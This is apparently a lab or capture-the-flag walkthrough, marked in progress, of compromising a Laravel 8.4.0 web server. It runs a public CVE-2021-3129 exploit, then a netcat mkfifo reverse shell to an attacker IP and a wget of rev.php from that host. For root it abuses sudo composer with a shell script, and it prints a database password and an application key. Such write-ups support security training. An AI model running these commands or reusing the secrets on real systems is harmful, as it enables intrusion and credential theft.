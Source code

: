 #InProgress 
```IP
192.168.194.38
```
# Enumeration

## HTTP 80
apache 2.4.56
vue.js 2.7.14
laravel 8.4.0

# Exploitation

https://github.com/joshuavanderpoll/CVE-2021-3129
```
python CVE-2021-3129.py --host http://192.168.194.38/ --log /var/www/html/storage/logs/laravel.log
```
```
execute rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.237 443 >/tmp/f
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.237 443 >/tmp/f
```

# PrivEsc
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129120617.png?raw=true)

## Manual
mariadb 127.0.0.1:3306
interesting writable files /dev/mqueue
pspy64
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160041.png?raw=true)

```
wget http://192.168.45.237:8000/rev.php -O rev.php
```

```
cp rev.php /var/www/html/lavita/artisan
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160546.png?raw=true)
As skunk we have sudo permissions
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129160641.png?raw=true)
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```
```
sudo /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129162513.png?raw=true)

## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241129122446.png?raw=true)
```
mysql -p 'lavita' -u 'lavita'
```
```
sdfquelw0kly9jgbx92
```
```
APP_KEY=base64:zfXJipTpbCyrZHRDpn0/NmdpHTbAl7/hCMf476EP1LU=
```
### Mimikatz

# Lateral Movement
